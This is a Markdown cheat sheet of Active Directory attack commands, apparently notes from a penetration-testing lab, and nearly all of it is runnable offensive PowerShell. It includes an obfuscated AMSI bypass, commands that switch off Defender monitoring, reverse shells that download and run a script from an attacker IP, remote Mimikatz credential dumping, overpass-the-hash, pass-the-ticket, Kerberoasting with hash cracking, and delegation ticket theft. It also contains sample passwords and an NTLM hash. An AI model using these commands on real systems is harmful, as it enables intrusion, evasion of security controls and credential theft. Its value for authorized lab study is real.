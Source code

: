 # Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Copy-Item C:\Users\pastudent149\Documents\PowerView.ps1 -Destination .\PowerView.ps1 -FromSession $sessTo149
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
iex(iwr http://192.168.50.149/Invoke-Mimikatz.ps1)

```
Run command
```cmd
runas /user:[Domain]\[user] cmd
```

## Enumeration

Current privs
```powershell
whoami /priv
```
WMI from powershell
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
Get Process name and its owner
```powershell
Get-Process -IncludeUserName
```

Get current domain
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain];$ADClass::GetCurrentDomain()
```


#### Bloodhound
```powershell
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```


#### PowerView

- [PowerView](https://github.com/lwierzbicki/PowerSploit/tree/master/Recon)
- [PowerSploit](https://powersploit.readthedocs.io)

Get all the users
```powershell
Get-NetUser
Get-NetUser | select -ExpandProperty samaccountname
$user = "usfun\db1user"
$pass = ConvertTo-SecureString -String "Vjltv1Enivad1232" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $user, $pass
$SecPassword = ConvertTo-SecureString 'Welcome2015' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('PWNY\jar-jar.binks', $SecPassword)
Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
Get-NetUser -Username student1
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
```

Get OU
```powershell
Get-NetOU
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```

Get GPO
```powershell
Get-NetGPO
(Get-NetOU StudentMachines -FullData).gplink
Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
Get-NetGPO -GPOName "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
Get-GPO -Guid [objectguid]
Find-GPOComputerAdmin - Computername dcorp-student1.dollarcorp.moneycorp.local
Find-GPOLocation -UserName student1 -Verbose
```

Get ACLs
```powershell
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights,AccessControlType
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
```

Get Domain Data
```powershell
Get-NetDomain
Get-NetDomain -Domain moneycorp.local
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy -domain moneycorp.local)."system access"
Get-NetDomainController -Domain moneycorp.local
```

Enumerate all domains in the current forest and their trust
```powershell
Get-NetForestDomain -Verbose
Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust
```

Check local admin priv on any other machines
```powershell
Invoke-UserHunter -CheckAccess
```

Go hunting for active user sessions
```powershell
Invoke-UserHunter -showall -Credential $cred -ComputerName workstation04 | Format-Table -Property userdomain, username,computername, ipaddress
```


### Attack

#### Over pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```

#### Pass the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krb_tkt.kirbi"'
```


#### Kerberoast

Get Kerberos ticket for user with SPN
```powershell
Get-NetUser -SPN | select serviceprincipalname
Request-SPNTicket -SPN "<serviceprincipalname>"
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Crack kerberoast hashes
```powershell
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```
Make user Kerberaostable
```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
Set-DomainObject -Identity sqlreportuser -SET @{serviceprincipalname='sqlreportuser/funcrop.local'}
Set-DomainObject -Identify sqlreportuser -Clear serviceprincipalname
```

### Unconstrained Delegation
Servers with uncontrained delegations
```powershell
Get-NetComputer -Unconstrained | select -ExpandProperty name
```
Dump tickets
```powershell
cd .\userX
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
Use PowerView to wait Domain Admin to access resource on specific host
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
(dump tickets)
```
Reuse ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\userX\[0;6f5638a]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
Invoke-Command -ScriptBlock{whoami;hostname} -computername dcorp-dc
```


#### Mimikatz

Add content to file
```powershell
Add-Content IM.ps1 "Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::lsa /patch' "
```

```powershell
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Inspect credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```
